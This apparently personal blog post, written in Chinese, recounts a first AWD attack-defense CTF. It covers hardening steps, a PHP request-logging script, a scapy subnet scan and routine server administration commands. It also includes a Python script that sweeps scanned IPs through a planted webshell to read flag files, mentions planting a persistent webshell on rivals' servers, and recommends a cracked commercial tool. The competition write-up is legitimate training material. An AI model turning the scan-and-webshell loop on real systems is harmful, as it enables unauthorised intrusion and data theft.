

昨儿参加了金科awd，小菜鸡的第一次awd，记录一下过程呗。
一、现场感觉咋样？
现场有西瓜吃，然后吃了一下午瓜，┭┮﹏┭┮，先说说网络配置
按理说应该整一个网段扫描扫其他靶机的ip地址
但是比赛方大致提供了网络分布图
一共11只队伍,每只队伍4个人,一共三道题目（3个Web oRz oRz
第n只队伍的A,B,C,D选手的ip分别是172.20.10n.1/2/3/4
第n只队伍的web1,web2,web3的ip分别是172.20.10n.101/102/103
规则为每半小时一轮，开局一轮只能防不能打，主办方每5分钟随机check一次靶机，如果宕机扣除比攻击更多的分
当然一般应该不会直接告诉你其他队ip地址，自己扫一扫就行，保存在ip_file.txt中，不同网段修改IpScan的网段即可
from scapy.all import srp, Ether, ARP
import re
IpScan = '192.168.1.1/24'
ip_file=open('ip_file.txt','w')
try:
ans,unans = srp(Ether(dst="FF:FF:FF:FF:FF:FF")/ARP(pdst=IpScan), timeout=2)
except Exception as e:
print(e)
else:
for send, rcv in ans:
ListMACAddr = rcv.sprintf("%Ether.src%---%ARP.psrc%")
print(ListMACAddr)
Just_IP = rcv.sprintf("%ARP.psrc%\n")
ip_file.write(Just_IP);
ip_file.close()
运维有点难受鸭，把不死马上了别个服务器，突然比赛停止分数和服务全部重置，尴尬！本次比赛三个flag都在各自服务器的根目录下，而且文件名是随机的，所以不仅要求有任意文件读能力，还得代码执行能力
二、获得了ip地址首先做了啥？
开始其实没必要紧张，因为不是一开始就能被打，先半小时自己fix自己的服务器
1、登陆到ssh，修改密码
本次比赛大家的服务器ip和自己的mac地址绑定了，比赛方提供的ssh密码都是默认的弱密码，一个是ctf一个是admin一个是123456，所以先上自己的服务区后修改自己的密码直接输入passwd,然后会让你先输入自己的旧密码，再输入两遍新密码。
2、dump源码
这个真滴重要，因为确实作为运维不行的小辣鸡（指自己，一不小心服务器就挂了，当然还有就是以防别的队拿了shell搞事情，很内疚，因为操作失误，不小心删了别个主页，听我解释o((>ω< ))o！。
3、备份数据库
3个web有2个用了mysql，233，密码都是弱密码，所以找到配置文件查看mysql修改密码，最好是备份一份在自己本地
mysql修改密码
格式：mysql> set password for 用户名@localhost = password('新密码');
例子：mysql> set password for root@localhost = password('123'); 记得把服务里的代码也改一改
4、先找一句话木马
先拿D盾扫一遍查杀比较简单的木马传送门
，当然这个只是基本的，如果没扫到，可以试试找一找隐藏的webshell,之前一篇博客的启发python3多线程实例之批量检测webshell存活工具,最后面一个脚本需要你将源码放在本地，递归遍历每个文件，然后通过暴力测试能够找到隐藏的木马。
5、监控脚本
由于第一打的小比赛，waf就没装了（说到底也没几个访问我们的服务器，嘤嘤嘤，上一个流量监控脚本
<?php
error_reporting(0);
define('LOG_FILEDIR','./logs');
if(is_dir(LOG_FILEDIR))
#echo "has "
;
else
{
mkdir(LOG_FILEDIR,0777,true);
# echo "Mkdir";
}
function waf()
{
if (!function_exists('getallheaders')) {
function getallheaders() {
foreach ($_SERVER as $name => $value) {
if (substr($name, 0, 5) == 'HTTP_')
$headers[str_replace(' ', '-', ucwords(strtolower(str_replace('_', ' ', substr($name, 5)))))] = $value;
}
return $headers;
}
}
$get = $_GET;
$post = $_POST;
$cookie = $_COOKIE;
$header = getallheaders();
$files = $_FILES;
$ip = $_SERVER["REMOTE_ADDR"];
$method = $_SERVER['REQUEST_METHOD'];
$filepath = $_SERVER["SCRIPT_NAME"];
foreach ($_FILES as $key => $value) {
$files[$key]['content'] = file_get_contents($_FILES[$key]['tmp_name']);
file_put_contents($_FILES[$key]['tmp_name'], "virink");
}
unset($header['Accept']);
$input = array("Get"=>$get, "Post"=>$post, "Cookie"=>$cookie, "File"=>$files, "Header"=>$header);
logging($input);
}
function logging($var){
$filename = $_SERVER['REMOTE_ADDR'];
$LOG_FILENAME = LOG_FILEDIR."/".$filename.".txt";
$LOG_FILENAME_JustParam = LOG_FILEDIR."/".$filename."Just_param".".txt";
#echo $LOG_FILENAME;
$time = date("Y-m-d G:i:s");
#echo "\n";
#echo $filename;
#echo "\n";
file_put_contents($LOG_FILENAME, "\r\n".$time."\r\n".print_r($var, true), FILE_APPEND);
file_put_contents($LOG_FILENAME,"\r\n".'http://'.$_SERVER['HTTP_HOST'].$_SERVER['PHP_SELF'].'?'.$_SERVER['QUERY_STRING'], FILE_APPEND);
file_put_contents($LOG_FILENAME,"\r\n***************************************************************",FILE_APPEND);
file_put_contents($LOG_FILENAME_JustParam, "\r\n".$time,FILE_APPEND);
file_put_contents($LOG_FILENAME_JustParam," ".'http://'.$_SERVER['HTTP_HOST'].$_SERVER['PHP_SELF'].'?'.$_SERVER['QUERY_STRING'], FILE_APPEND);
}
waf();
?>然后你在其他文件加上require_once('waf.php');也可以拿一下命令所有php加上,源码和waf目录自己灵活一点变化
sudo find /var/www/html/<path> -type f -path "*.php" | xargs sed -i "s/<?php/<?php\nrequire_once('\/tmp\/waf.php');\n/g"
想象中是看别人的流量然后构造payload攻击其他人
现实情况是，压根没几个人访问过我们的网站（估计是fix太狠了
6、当你能构造padload就可以批量攻击其他人了，不管别人修没修，从之前扫到的ip地址内读ip出来，打一下就完事了，处理好报错就行,比如请求的timeout设置小一点，不会那么卡
import sys
import requests
ip_list=[]
flag_txt=open('flag.txt','w')
#把文件里的ip地址转化成list
with open('ip_file.txt','r') as f:
for line in f:
ip_list.append(list(line.strip('\n').split(',')))
#print(ip_list);
def get_flag(ip_str):
url = "http://"+ip_str+"/1.php?key=readfile('./flag.txt');"
print(url);
try:
s = requests.Session()
source = s.get(url,timeout=1)
if "flag" in source.text:
flag_txt.write(source.text+"\n")
print(url+" hacked "+source.text)
else:
print(url+" Is error ")
except KeyError as e:
print('键错误')
except IndexError as e:
print('索引错误')
except TypeError as e:
print('类型错误')
except ValueError as e:
print('值的类型错误')
except requests.exceptions.RequestException as e:
print('超时')
except Exception as e:
print('错误')
for ip_addr in ip_list:
ip_str=''.join(str(i) for i in ip_addr)
get_flag(ip_str)
flag_txt.close()get_flag函数根据需求自己改，把flag保留在flag.txt的中批量提交
7、批量提交flag
当对手太多了，可以写个批量提交脚本，orz本地提交系统居然有验证码？,提交需要提供别人flag个自己token，（当然也可能需要别人的ip，按需所取吧
import requests
judge_url="http://192.168.1.114/1.php"
self_token="Hello_kitty"
flag_list=[]
with open('flag.txt','r') as f:
for line in f:
flag_list.append(list(line.strip('\n').split(',')))
#print(flag_list)
def post_rep(flag, token):
param = {
'token': token,
'flag':flag
}
rep = requests.post(judge_url, data=param)
#print(rep)
print("send flag success "+flag+rep.text)
for flag in flag_list:
rel_flag=''.join(str(i) for i in flag)
post_rep(rel_flag,self_token)8、文件对比
当你发现自己文件被动了手教可以使用软件对比哪里变化了，推荐软件BeyondCompare网上可以找找破解版
题目就不点评了，只能说自己php和运维能力是真滴虚，暑假努力了
运维小知识
php停止和重启（查杀不死马
service php-fpm start 开启
service php-fpm stop 停止
service php-fpm restart 重启Nginx
启动
启动代码格式：nginx安装目录地址 -c nginx配置文件地址
[root@LinuxServer sbin]# /usr/local/nginx/sbin/nginx -c /usr/local/nginx/conf/nginx.confnginx的停止有三种方式：
1、查看进程号
2、然后杀死
[root@LinuxServer ~]# ps -ef|grep nginx
[root@LinuxServer ~]# kill -QUIT 2072强制停止
[root@LinuxServer ~]# pkill -9 nginx重启
进入nginx安装目录sbin下，输入命令./nginx -t
看到如下显示nginx.conf syntax is ok
nginx.conf test is successful
进入nginx可执行目录sbin下，输入命令**./nginx -s reload** 即可
或者
查找当前nginx进程号，然后输入命令：kill -HUP 进程号 实现重启nginx服务Apache
基本的操作方法：
假设你的apahce安装目录为/usr/local/apache2，这些方法适合任何情况
apahce启动命令：
推荐/usr/local/apache2/bin/apachectl start apaceh启动
apache停止命令
/usr/local/apache2/bin/apachectl stop 停止
apache重新启动命令：
/usr/local/apache2/bin/apachectl restart 重启
要在重启 Apache 服务器时不中断当前的连接，则应运行：
/usr/local/sbin/apachectl graceful
如果apache安装成为linux的服务的话，可以用以下命令操作：
service httpd start 启动
service httpd restart 重新启动
service httpd stop 停止服务mysql
- 备份
[root@localhost ~]# cd /var/lib/mysql (进入到MySQL库目录，根据自己的MySQL的安装情况调整目录) [root@localhost mysql]# mysqldump -u root -p Test>Test0809.sql，输入密码即可。 - 还原
法一：[root@localhost ~]# mysql -u root -p 回车，输入密码，进入MySQL的控制台"mysql>"，输入命令"show databases；"。
看看有些什么数据库；
建立你要还原的数据库，输入"create database voice；"，切换到刚建立的数据库，输入"use voice；"，回车；导入数据，输入"source voice.sql；"，回车，开始导入，再次出现"mysql>"并且没有提示错误即还原成功。
[root@localhost ~]# cd /var/lib/mysql (进入到MySQL库目录，根据自己的MySQL的安装情况调整目录)
[root@localhost mysql]# mysql -u root -p Test<Test0809.sql，输入密码即可（将要恢复的数据库文件放到服务器的某个目录下，并进入这个目录执行以上命令|）。
moodle_bak.sql是需要恢复的文件名